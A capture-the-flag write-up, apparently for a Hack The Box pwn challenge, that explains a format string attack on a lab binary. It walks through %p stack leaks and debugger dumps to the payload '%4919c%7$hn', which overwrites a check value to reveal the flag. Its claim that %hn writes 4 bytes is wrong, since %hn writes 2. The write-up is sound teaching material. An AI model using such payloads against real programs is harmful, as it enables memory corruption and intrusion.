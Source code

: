 # Space Pirate:Entrypoint

### Challenge: PWN

### Tools: Ghidra, Pwndbg

### Vulnerability: Format String

This challenge is in the form of a format string  vulnerability. Since I had never used one I followed these links for a very good run down on a format string attack.

https://kevinalmansa.github.io/application%20security/Format-Strings

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

Below is the main function where our vulnerability sits. The check_pass function has no actual vulnerability.




We can see that local 48 = 0xdeadbeef but if local_48 = 0xdead1337 then it will open_door which is the function that prints our flag. So our goal is to change the value of 0xdeadbeef to 0xdead1337.
Now the way I actually figured out there was a format string vulnerability was by putting in different % commands to see if anything happened and luckily I found that %p was printing addresses. %s and %n will cause a segmentation fault.

```
(base) ┌──(rogue1㉿rogue1)-[~/HTB/CTF/Apocalypse2022/challenge]
└─$ ./sp_entrypoint          


                         Authentication System

▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░▒▓▓▓░░▓▓▓▓▓  ░  ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓▒░▓▓▓▓▓ ░   ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▒░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓                                                        ▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒░░░▓▓░░░▓▓▒░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒░░░▒▓▓░░░▓▓▒ ░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░░░░░▓▓░░░▓▓▓  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒░▓▓▓▒░░░░▓▓▒  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░▒░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓░▒▓▓▓░░░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒░▓▓▓░░░░ ▓▓   ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓                                                                   
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓                                                                   
                                                                                                                                                   
                                                                                                                                                   
1. Scan card 💳                                                                                                                                    
2. Insert password ↪                                                                                                                               
> 1                                                                                                                                                
                                                                                                                                                   
[!] Scanning card.. Something is wrong!                                                                                                            
                                                                                                                                                   
Insert card's serial number: %p %p %p %p %p %p %p %p %p %p %p %p                                                                                   
                                                                                                                                                   
Your card is: 0x7ffdfc86f2d0 0x7f734ef768c0 (nil) 0xf (nil) 0xdeadbeef 0x7ffdfc871970 0x7025207025207025 0x2520702520702520 0x2070252070252070     
                                                                                                                                                   
[-] Invalid ID! Intruder detected! 🚨 🚨 
```                                                                                                          
                                                

By inputting a couple of %p we can see that the address 0xdeadbeef is at offset 6 and input data is put into offset 7. Anything after becomes arbitrary.


```$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7af2031  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x1f              
$rsp   : 0x007fffffffdce0  →  0x00000000deadbeef
$rbp   : 0x007fffffffdd20  →  0x00555555400e20  →  <__libc_csu_init+0> push r15
$rsi   : 0x007fffffffdcf0  →  "%p %p %p %p %p %p %p %p %p %p\n"
$rdi   : 0x00555555402658  →  "\nYour card is: "
$rip   : 0x00555555400d84  →  <main+142> call 0x5555554008a0 <printf@plt>
$r8    : 0x47              
$r9    : 0x0               
$r10   : 0x007ffff7b80bc0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00555555400940  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffde00  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce0│+0x0000: 0x00000000deadbeef     ← $rsp
0x007fffffffdce8│+0x0008: 0x007fffffffdce0  →  0x00000000deadbeef
0x007fffffffdcf0│+0x0010: "%p %p %p %p %p %p %p %p %p %p\n"      ← $rsi
0x007fffffffdcf8│+0x0018: " %p %p %p %p %p %p %p\n"
0x007fffffffdd00│+0x0020: "p %p %p %p %p\n"
0x007fffffffdd08│+0x0028: 0x000a7025207025 ("%p %p\n"?)
0x007fffffffdd10│+0x0030: 0x007fffffffde00  →  0x0000000000000001
0x007fffffffdd18│+0x0038: 0x10674ff2d0c4b300
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555400d73 <main+125>       call   0x5555554008c0 <read@plt>
   0x555555400d78 <main+130>       lea    rdi, [rip+0x18d9]        # 0x555555402658
   0x555555400d7f <main+137>       mov    eax, 0x0
 → 0x555555400d84 <main+142>       call   0x5555554008a0 <printf@plt>
   ↳  0x5555554008a0 <printf@plt+0>   jmp    QWORD PTR [rip+0x2026ea]        # 0x555555602f90 <printf@got.plt>
      0x5555554008a6 <printf@plt+6>   push   0x4
      0x5555554008ab <printf@plt+11>  jmp    0x555555400850
      0x5555554008b0 <alarm@plt+0>    jmp    QWORD PTR [rip+0x2026e2]        # 0x555555602f98 <alarm@got.plt>
      0x5555554008b6 <alarm@plt+6>    push   0x5
      0x5555554008bb <alarm@plt+11>   jmp    0x555555400850
───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00555555402658 → "\nYour card is: ",
   $rsi = 0x007fffffffdcf0 → "%p %p %p %p %p %p %p %p %p %p\n",
   $rdx = 0x0000000000001f
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sp_entrypoint", stopped 0x555555400d84 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555400d84 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
Python Exception <class 'AttributeError'> partially initialized module 'pwndbg' has no attribute 'commands' (most likely due to a circular import): 
gef➤  x50x $rsp
Undefined command: "x50x".  Try "help".
gef➤  x/50x $rsp
0x7fffffffdce0: 0xdeadbeef      0x00000000      0xffffdce0      0x00007fff
0x7fffffffdcf0: 0x25207025      0x70252070      0x20702520      0x25207025
0x7fffffffdd00: 0x70252070      0x20702520      0x25207025      0x00000a70
0x7fffffffdd10: 0xffffde00      0x00007fff      0xd0c4b300      0x10674ff2
0x7fffffffdd20: 0x55400e20      0x00005555      0xf7a03c87      0x00007fff
0x7fffffffdd30: 0x00000001      0x00000000      0xffffde08      0x00007fff
0x7fffffffdd40: 0x00008000      0x00000001      0x55400cf6      0x00005555
0x7fffffffdd50: 0x00000000      0x00000000      0xd40bc83c      0x088c5f78
0x7fffffffdd60: 0x55400940      0x00005555      0xffffde00      0x00007fff
0x7fffffffdd70: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd80: 0x722bc83c      0x5dd90a07      0xb035c83c      0x5dd91ab8
0x7fffffffdd90: 0x00000000      0x00007fff      0x00000000      0x00000000
0x7fffffffdda0: 0x00000000      0x00000000
gef➤
```
 

So now that we know where we need to point the format string attack we can set up the command. Also we only need to change the last 2 bytes for the attack

Command = `%4919c%7$hn`	
	- 1337=4919(last 4 of dead1337 from hex) 
  - c= prints character
  - %7=the offset we are placing the $hn 
  - $hn=writes 4 bytes to the target pointer.






With that we have our flag!

When I first started out I think I was diving too deep and trying scripts like `“dead1337””\x20\xdf\xff\xff””%7$n”` to print the flag but eventually realized this challenge was simpler than that.

